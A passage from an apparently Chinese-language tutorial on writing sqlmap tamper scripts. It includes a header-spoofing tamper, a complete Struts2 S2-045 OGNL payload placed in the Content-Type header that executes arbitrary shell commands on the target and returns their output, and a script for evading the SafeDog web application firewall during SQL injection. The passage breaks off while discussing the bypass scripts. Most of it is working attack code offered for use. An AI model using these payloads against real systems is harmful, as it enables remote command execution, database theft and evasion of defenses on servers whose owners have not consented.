 是不是很简单呢？

我们的第一个Tamper就大功告成了，可惜的是sqlmap官方提供的tamper中已经有了我们刚才写的功能，并且WAF大多没有那么低的level。

想要提升我们tamper的杀伤力和Level，首先你要了解Http相关的基础知识，以及正则表达式。

总之万变不离其宗，我们只要在最后返回Payload的值就可以了。

另一种玩法就是将我们请求的Header头进行一下篡改：
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2016 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    kwargs['headers']['X-Forwarded-For'] = '10.10.10.10' # 这里的kwargs是一个字典，读者可以直接print打印出来看看结构。
    payload = payload.replace(" ",'/**/')
    return payload
```

经常看HTTP数据包的读者肯定注意到了，kwargs['headers']对应我们的请求Header头，它是一个字典。

```python
kwargs['headers']['Content-type'] = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+sys.argv[2]+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

kwargs['headers']['User-Agent']="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36" # 修改User-Agent
```

也可以这么来执行`S2-045`……

当然也可以`import`其他模块进行操作，随心所欲 ～

下面分析我之前分享出来的两个bypass脚本：

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload,**kwargs):
    if payload:
		bypass_SafeDog_str = "/*x^x*/" # 一个干扰字符
		payload=payload.replace("UNION",bypass_SafeDog_str+"UNION"+bypass_SafeDog_str) # 在UNION的左右两边添加干扰字符
		payload=payload.replace("SELECT",bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str) # 同上，
		payload=payload.replace("AND",bypass_SafeDog_str+"AND"+bypass_SafeDog_str) # 同上，
		payload=payload.replace("=",bypass_SafeDog_str+"="+bypass_SafeDog_str) # 将空格替换成干扰字符
		payload=payload.replace(" ",bypass_SafeDog_str)
		payload=payload.replace("information_schema.","%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/") # 将information_schema.这个关键字替换成URL编码后的内容
```